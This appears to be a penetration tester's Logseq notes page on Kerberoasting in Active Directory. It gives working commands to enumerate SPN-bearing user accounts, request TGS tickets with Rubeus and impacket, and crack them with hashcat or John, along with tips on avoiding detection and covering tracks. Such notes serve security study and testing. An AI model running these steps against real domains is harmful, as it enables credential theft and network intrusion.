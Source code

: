 public:: true

- In case a [SPN](((655e0fad-5b48-42ce-b82a-09cd0e4a9322))) is associated to an AD user account instead of an AD computer account, then the service instance that SPN is registered for **will be run in the context of that user**.
- #+BEGIN_NOTE
  As opposed to *[AD computer account](((655e3185-f921-4b07-bb00-e397a2486fc6)))*, the *AD user account* password might be bruteforced.
  #+END_NOTE
- When the KDC returns a [TGS-REP](((655b6438-ee0f-4168-8a40-754613d2b793))) it also returns [some information](((655a24c7-b91e-4a45-8468-c565395f566e))) encrypted with the password of user associated to the SPN.
- The Kerberoasting attack consist on targeting services ran by AD user account.
	- Search for services ran by AD user accounts
	  logseq.order-list-type:: number
	- File TGS-REQs against the KDC for found services
	  logseq.order-list-type:: number
	- Retrieve TGS-REPs
	  logseq.order-list-type:: number
		- The KDC always return a TGS-REP (if we can file a TGS-REQ from a domain user) beacuse no checks are performed to confirm whether we have any permissions to access the service hosted by the SPN. These checks are performed as a second step [only when connecting to the service itself](((655b6438-6055-4038-b37b-457c7b623610))).
	- Try to bruteforce TGS-REPs offline to retrieve the AD user account password
	  logseq.order-list-type:: number
	- Loot
	  logseq.order-list-type:: number
- id:: 655e327e-5e4b-4260-828e-33941dad976c
  #+BEGIN_TIP
  In case you have **GenericWrite** or **GenericAll** permissions on another AD user account you could reset the user's password but *this may raise suspicion*. However, you could also [set an SPN](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc731241(v=ws.11)) for the user *(kerberoast the account)* and crack the password hash in an attack named **Targeted Kerberoasting**.
  
  Do not forget to delete the SPN once you've obtained the hash!
  #+END_TIP
- Retrieve the list of SPNs associated to AD users accounts.
  *(Kerberoastable users)*
	- #+BEGIN_TIP
	  We know that a user account is being used to run a service because his `ServicePrincipalName` property is not null.
	  #+END_TIP
	- From Windows
	  id:: 655e1f7d-ff2f-48b3-b240-c888d0cfb1b1
		- With PowerView
			- id:: 655e2029-2d0e-476f-9c58-c69ce7906fa7
			  ```powershell
			  # List any service principals associated with an AD user account
			  Get-NetUser -SPN | select samaccountname,serviceprincipalname
			  ```
		- With [[Rubeus]]
			- id:: 656849f2-846c-490f-9af4-8d1cb413e0dc
			  ```powershell
			  .\Rubeus.exe kerberoast /stats
			  ```
		- With built-in tools
			- id:: 65684a10-0764-4ca6-ad8e-1053e99ded78
			  ```cmd
			  setspn.exe -Q */*
			  ```
	- From Linux
		- With [[GetUserSPNs]]
		  id:: 655e2491-e204-4c69-859d-53d7425c4419
			- id:: 656849d0-d310-4cca-9f69-9af864f36474
			  ```bash
			  # List any service principals associated with an AD user account
			  impacket-GetUserSPNs -dc-ip domain-controller-ip 'domain.tld/username:password'
			  
			  # List any service principals associated with an AD user account (Pass-the-Hash)
			  impacket-GetUserSPNs -dc-ip domain-controller-ip -hashes lm-hash:nt-hash 'domain.tld/username'
			  ```
		- With LDAP
			- ```bash
			  ldapsearch -LLL -x -H ldap://dc01.hpbank.local -D "da@hpbank.local" -w 'P@ssw0rd' -b dc=hpbank,dc=local "(&(&(servicePrincipalName=*)(UserAccountControl:1.2.840.113556.1.4.803:=512))(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))" sAMAccountName userPrincipalName memberOf
			  ```
		- With [Kerberoast]([[Kerberoast tool]])
		  id:: 656853b7-62f7-4e01-a4a4-7c3ade091299
			- This tool asks for aes 128/256 encrypted tickets. Making the crack process way harder, but also decreasing the detection risk.
			- id:: 6568549a-34f2-467e-a9b5-c991a40f24ba
			  ```bash
			  # All user in the list
			  kerberoast spnroast 'kerberos+pw://HPBANK\user:P@ssw0rd@192.168.0.122' -t list_of_users_with_spn.txt
			  ```
			  ```bash
			  # Single user
			  kerberoast spnroast 'kerberos+pw://HPBANK\user:P@ssw0rd@192.168.0.122'<kerberos_connection_url> -u user
			  ```
- #+BEGIN_NOTE
  Above mentioned tools [typically request](https://blog.harmj0y.net/redteaming/kerberoasting-revisited/) **RC4** encryption when performing the attack and initiating TGS-REQ requests.
  
  This is because *RC4* is [weaker](https://www.stigviewer.com/stig/windows_10/2017-04-28/finding/V-63795) and easier to crack offline using tools such as [[Hashcat]], compared to other encryption algorithms such as *AES-128* and *AES-256*.
  
  #+BEGIN_CAUTION
  Requesting RC4 encrypted tickets can be (and probably will be) detected by SOC ([Sigma Rule](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/builtin/security/win_security_susp_rc4_kerberos.yml))
  #+END_CAUTION
  
  *RC4* (type 23) hashes begin with `$krb5tgs$23$*` while *AES-256* (type 18) start with `$krb5tgs$18$*`.
  #+END_NOTE
- Retrieve TGS-REPs for Kerberoastable users
	- From Windows with [[Rubeus]]
	  id:: 655e28cb-6916-4e6a-acbf-448824638693
		- This tool search for SPNs associated with with AD user accounts and request TGS-REP accordingly.
		- It needs to be ran from compromised windows machine in the context of an domain user.
		- ```powershell
		  .\Rubeus.exe kerberoast /tgtdeleg /outfile:hashes.kerberoast
		  ```
			- If the `/tgtdeleg` flag is supplied, the [tgtdeleg](https://github.com/GhostPack/Rubeus/tree/1155140b15008259be4fb05b7c28fc03e807a626#tgtdeleg) trick it used to get a usable TGT for the current user, which is then used for the roasting requests. If this flag is used, accounts with AES enabled in msDS-SupportedEncryptionTypes will have RC4 tickets requested. More info [here](https://blog.harmj0y.net/redteaming/kerberoasting-revisited/).
	- From Linux with [[GetUserSPNs]]
	  id:: 655e2ce7-cc6b-42f9-8adf-a6e93a8956dd
		- id:: 6564d529-277a-4c22-afa2-90cccfa1e991
		  ```bash
		  impacket-GetUserSPNs -request -dc-ip 192.168.50.70 -outputfile hashes.kerberoast corp.com/pete
		  ```
		- `-request` - is specified to request the [TGS-REP](((655b6438-ee0f-4168-8a40-754613d2b793))).
		- `-dc-ip` - The KDC (domain controller) IP
		- `corp.com/pete` - is the domain user from where we can query the DC. We'll need to input his password.
		- `-outputfile hashes.kerberoast` - file to save captured hashes.
- Crack **Kerberos 5 TGS-REP** hashes
  id:: 655e2b6a-bc1a-494a-86e2-c23880ba612c
	- With [[Hashcat]] with the [`-m 13100`](https://hashcat.net/wiki/doku.php?id=example_hashes) option.
	  ```bash
	  # 13100 - Kerberos 5, etype 23, TGS-REP (RC4)
	  # 19600 - Kerberos 5, etype 17, TGS-REP (AES128-CTS-HMAC-SHA1-96)
	  # 19700 - Kerberos 5, etype 18, TGS-REP (AES256-CTS-HMAC-SHA1-96)
	  
	  sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt \
	  	-r /usr/share/hashcat/rules/best64.rule --force
	  ```
	- `-m 13100` - specifies the correct mode
	- `hashes.kerberoast` - is the file with the hashes, as it was output by `impacket-GetNPUsers` or `Rubeus`
	- `rockyou.txt` - the wordlist we want to use
	- `best64.rule` - the rules to apply to the wordlist
	- `--force` - to run `hashcat` in Kali
	- With [[JTR]]
		- id:: 65685709-5a71-4be1-8cc9-aafb468933ad
		  ```bash
		  john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt hashes.kerberoast
		  ```